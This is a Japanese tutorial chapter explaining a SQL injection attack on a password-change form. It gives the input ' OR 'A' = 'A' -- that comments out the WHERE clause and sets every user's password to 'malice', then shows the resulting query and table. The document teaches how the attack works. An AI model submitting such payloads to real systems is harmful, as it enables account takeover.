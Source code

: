 ```yaml
---
chapter_no: 50
chapter_title: ケース５ SQLインジェクション攻撃によるパスワード変更 〜コメントアウトで無効化〜
created: 2008-04-12
updated: 2021-04-01
---
```

さて、今度は[ケース４](#ケース４ SQLインジェクション攻撃によるパスワード変更 〜シングルクォート挿入〜)の応用で全データを変更するパターンの攻撃についてご紹介しましょう。

### 攻撃手法
利用するテーブル、条件は[ケース４](#ケース４ SQLインジェクション攻撃によるパスワード変更 〜シングルクォート挿入〜)と同様とし、悪意あるユーザが全ユーザのパスワードを「`malice`」への書き換えを試みる際に入力するパラメータは以下のようになります。

<table class="normal">
	<tr>
		<th markdown="span">パラメータ</th>
		<th markdown="span">入力する値</th>
	</tr>
	<tr>
		<td><span class="code-font">$userId</span></td>
		<td><span class="code-font">' OR 'A' = 'A' --</span></td>
	</tr>
	<tr>
		<td><span class="code-font">$oldPasswd</span></td>
		<td><span class="code-font">(何も入力しない)</span></td>
	</tr>
	<tr>
		<td><span class="code-font">$newPasswd</span></td>
		<td><span class="code-font">malice</span></td>
	</tr>
</table>

結果、生成されるSQL文は以下のようなものになります。

```:SQL
UPDATE ユーザマスタ SET パスワード = 'malice' WHERE ユーザID = '' {em{OR 'A' = 'A' --' AND パスワード = ''}em}
```

[ケース３](#ケース３ SQLインジェクション攻撃による任意のSQL文実行 〜コメントアウトで無効化〜)と同様に「`'A' = 'A'`」の恒真式にしつつ、それ以降をコメントアウトしてWHERE句を無効化しています。結果、全員のパスワードが「`malice`」に変更されてしまいます。  
更新後のテーブルの様子は以下のようになります。

<b>テーブル名：ユーザマスタ(更新後)</b>
<table class="normal">
	<tr>
		<th markdown="span">ユーザID</th>
		<th markdown="span">パスワード</th>
	</tr>
	<tr>
		<td><span class="code-font">admin</span></td>
		<td><span class="code-font"><b>malice</b></span></td>
	</tr>
	<tr>
		<td><span class="code-font">fumo</span></td>
		<td><span class="code-font"><b>malice</b></span></td>
	</tr>
	<tr>
		<td><span class="code-font">cynthia</span></td>
		<td><span class="code-font"><b>malice</b></span></td>
	</tr>
	<tr>
		<td><span class="code-font">rose</span></td>
		<td><span class="code-font"><b>malice</b></span></td>
	</tr>
</table>